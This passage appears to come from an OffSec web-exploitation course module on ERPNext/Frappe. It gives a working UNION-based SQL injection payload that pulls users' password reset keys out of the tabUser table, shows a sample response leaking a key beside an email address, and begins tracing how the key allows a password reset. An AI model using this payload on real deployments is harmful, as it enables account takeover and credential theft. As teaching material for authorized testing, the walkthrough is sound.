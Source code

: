 > Listing 48 - List of column names

From the list of columns, we notice _reset_password_key_. We can use this column name to extract the password reset key. We should also include the _name_ column to ensure that we are obtaining the reset key for the correct user. The query for this is:

```
SELECT name COLLATE utf8mb4_general_ci, reset_password_key COLLATE utf8mb4_general_ci
FROM tabUser;
```

> Listing 49 - Extracting the reset key query

The SQL query in Listing 49 needs to conform to the UNION query. This time, we will use the number "1" for the name/email and number "5" for the _reset_password_key_. The updated query can be found in Listing 50.

```
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#%" AND MATCH(`content`) AGAINST (\'\\"offsec\\"\' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0'
```

> Listing 50 - Payload for password reset key

Using the highlighted section in Listing 50 as the payload in Burp, we can obtain the password reset key.

![Figure 43: Obtaining the Password Reset key](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/8ceec4b3ef95e4495f851beee96f753e-erpnext_obtaining_password_reset_key.png)

Figure 43: Obtaining the Password Reset key

The Burp response contains the password_reset_key in the "route" string with the email in the "doctype" string. An example is shown in Listing 51.

```
{"message":[{"name":"2","content":"3","relevance":0,"title":"4","doctype":"Administrator","route":null},{"name":"2","content":"3","relevance":0,"title":"4","doctype":"Guest","route":null},{"name":"2","content":"3","relevance":0,"title":"4","doctype":"zeljka.k@randomdomain.com","route":"aAJTVmS14sCpKxrRT8N7ywbnYXRcVEN0"}]}
```

> Listing 51 - Password reset key in response

Now that we have the password_reset_key, let's figure out how to use it to reset the password. We will search the application's source code for "reset_password_key" with the idea that wherever this column is used, it will most likely give us a hint on how to use the key.

![Figure 44: Finding reset_password Function](https://static.offsec.com/offsec-courses/WEB-300/images/erpnext/b183b3bc574685092296b052eeaf56ef-erpnext_finding_reset_password_func.png)

Figure 44: Finding reset_password Function

Searching for "reset_password_key" allows us to discover the _reset_password_ function in the file apps/frappe/frappe/core/doctype/user/user.py. The function can be found below.

```
	def reset_password(self, send_email=False, password_expired=False):
		from frappe.utils import random_string, get_url

		key = random_string(32)
		self.db_set("reset_password_key", key)

		url = "/update-password?key=" + key
		if password_expired:
			url = "/update-password?key=" + key + '&password_expired=true'

		link = get_url(url)
		if send_email:
```